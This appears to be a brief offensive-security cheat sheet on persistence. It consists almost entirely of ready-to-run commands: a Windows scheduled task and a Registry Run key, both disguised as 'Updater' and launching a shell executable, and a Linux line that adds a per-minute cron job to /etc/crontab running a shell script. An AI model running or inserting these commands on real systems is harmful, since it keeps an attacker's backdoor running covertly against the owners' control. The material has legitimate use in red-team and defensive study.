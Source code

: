 # Persistence Techniques

## Windows – Scheduled Task

powershell

schtasks /create /sc onlogon /tn "Updater" /tr "C:\path\to\shell.exe"
Windows – Registry Run Key

powershell

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Updater /t REG_SZ /d "C:\path\to\shell.exe"
Linux – Cron Job

echo "* * * * * /path/to/shell.sh" >> /etc/crontab
